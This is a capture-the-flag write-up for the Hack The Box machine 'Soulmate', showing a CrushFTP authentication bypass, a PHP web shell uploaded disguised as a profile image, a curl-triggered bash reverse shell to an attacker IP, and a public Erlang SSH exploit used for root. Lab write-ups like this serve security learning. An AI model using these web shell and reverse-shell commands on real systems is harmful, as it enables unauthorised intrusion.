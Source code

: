 # Soulmate

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UfZ4t_D4nnULwpnc0mbcYg.png" alt=""><figcaption></figcaption></figure>

## Recon

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*glQHLpGmeSPZzr_8NRehOA.png" alt=""><figcaption></figcaption></figure>

No interesting directories were found on main application **soulmate.htb** after some enumeration vhost was found.

### Vhost Discovery

<figure><img src="https://cdn-images-1.medium.com/max/800/1*rA78vL7rX64flCkpPBRhZg.png" alt=""><figcaption></figcaption></figure>

\


I also tried default creds of crushftp which was crushadmin:crushadmin but they didn’t work out well so, went to hydra but it didn't help.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*T4qL5lE0CUVmDGyYQvm3Ag.png" alt=""><figcaption></figcaption></figure>

\


### Crush-ftp Auth Bypass

\


So i didn’t get any version of the application but i saw this..

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*fvDVOv18j37t3gcuc_KzcA.png" alt=""><figcaption></figcaption></figure>

It adds a user and gets you login into application.

```
python 52295.py --target ftp.soulmate.htb --exploit --new-user hacker --password hacker  --port 80
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*7J2U-9QufbNbI3R9hOVWmw.png" alt=""><figcaption></figcaption></figure>

We have successfully logged-in as admin.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Q3TDjGUVziMcWHA_AjhN1g.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*pTaVeRrIsxQaAgQCQ_C3Mw.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2Dqay4aMtHv_BGMBtXgBbA.png" alt=""><figcaption></figcaption></figure>

There was a telnet client idk how its working.



## Initial Foothold

\


So now go to the admin panel and select files take the folder of **app** to your user and then allow all the permission especially upload,rename. After that upload the file containing php cmd as an png file.

And upload it as a profile image in **soumate.htb**

```
echo '<?php if(isset($_REQUEST["cmd"])) system($_REQUEST["cmd"]); ?>' > shell.p
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*e9p1T1sJGFx8LbdWmS_8SA.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*ZTdVQOCffR5j1swxsMz1oA.png" alt=""><figcaption></figcaption></figure>

Now the uploaded file will be poped up in profiles folder as you already gave permission to rename the file you can change it back into php file.

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*3Ore7de8XCTUksHDP2pRPA.png" alt=""><figcaption></figcaption></figure>

After that go to the profile pic and click open image at new tab and add ?cmd=\<command> to see if its working

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UgH1_RRslaWGU0fK18AYWg.png" alt=""><figcaption></figcaption></figure>

if its working its time to get reverse shell.



### Reverse shell



```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"

```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2E7pmnEEtLH4m4D1SuH1uw.png" alt=""><figcaption></figcaption></figure>

```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"
```

That’s it we got Shell into the box.

## Root Access

<figure><img src="https://cdn-images-1.medium.com/max/800/1*VnH3v6geO4lGVZWiqQob5g.png" alt=""><figcaption></figcaption></figure>

While enumerating i got this.

Its running a erlang\_ssh.service so i tried to get the version of service.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*fAIzXTA_i_ExnKSuagpQPQ.png" alt=""><figcaption></figcaption></figure>

We got the version now.

\


Get the exploit from github [https://github.com/TeneBrae93/CVE-2025-3243.git](https://github.com/TeneBrae93/CVE-2025-3243.git).

modify the code and this command to spawn a reverse shell.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*nnniaQR8RUk8ZwU-Hg8NZw.png" alt=""><figcaption></figcaption></figure>

\


And transfer it into victim machine.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*MLlnbpSqbhFe-XustJwduw.png" alt=""><figcaption></figcaption></figure>

```
python3 CVE-2025-3243.py -lh 10.10.16.54 -lp 4444 -rh 127.0.0.1 -rp 2222
```

Since the erlang port is running on local host we dont have a choice but to run this on the victim machine .

> Note run this in victim machine -lh is your vpn ip and -lp is your listener ip.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*3_0xssfNOoPnmzuenbs4NA.png" alt=""><figcaption></figcaption></figure>

And that's it we got root on boxx!!!!



{% code fullWidth="true" %}
```awk
                  .----.                                                       
      .---------. | == |
      |.-"""""-.| |----|
      ||       || | == |                                                       
      ||       || |----|                                                      Happy Hacking.....
      |'-.....-'| |::::|
      `"")---(""` |___.|                            
     /:::::::::::\" _  "
    /:::=======:::\`\`\
    `"""""""""""""`  '-'
```
{% endcode %}
